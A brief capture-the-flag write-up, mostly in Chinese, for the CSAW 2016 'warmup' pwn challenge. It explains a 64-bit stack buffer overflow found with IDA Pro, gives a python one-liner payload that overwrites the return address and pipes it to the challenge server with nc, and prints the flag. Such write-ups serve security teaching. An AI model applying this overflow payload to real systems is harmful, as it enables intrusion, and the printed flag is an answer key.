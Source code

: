 #warmup

基本的buffer overflow 題，

開IDA pro看

![img](1.jpg)

開始找overflow的長度

-> 72

於是在72個"a"後面塞IDA pro看到的位址：400611，

題目秀出的也可以。

![img](warmup.jpg)

It is 64-bit so that we need to add "\x00" 4 times behind payload. 

payload: ```python -c 'print "a"*72 + "\x11\x06\x40\x00\x00\x00\x00\x00"' | nc pwn.chal.csaw.io 8000```

Flag is ```FLAG{LET_US_BEGIN_CSAW_2016}```
